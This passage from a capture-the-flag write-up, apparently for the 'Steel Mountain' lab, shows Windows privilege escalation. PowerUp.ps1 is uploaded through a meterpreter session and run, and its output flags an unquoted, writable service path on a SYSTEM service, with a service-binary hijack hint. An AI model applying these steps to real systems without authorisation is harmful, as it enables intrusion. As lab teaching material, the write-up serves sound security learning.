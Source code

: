 ## Privilege escalation

Download the `Powersploit` powershell script and upload it using the meterpreter

```bash
meterpreter > upload PowerUp.ps1
[*] Uploading  : /home/nairolf32/Bureau/Hacking/Ctfs/THM/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /home/nairolf32/Bureau/Hacking/Ctfs/THM/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /home/nairolf32/Bureau/Hacking/Ctfs/THM/Steel Mountain/PowerUp.ps1 -> PowerUp.ps1

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
```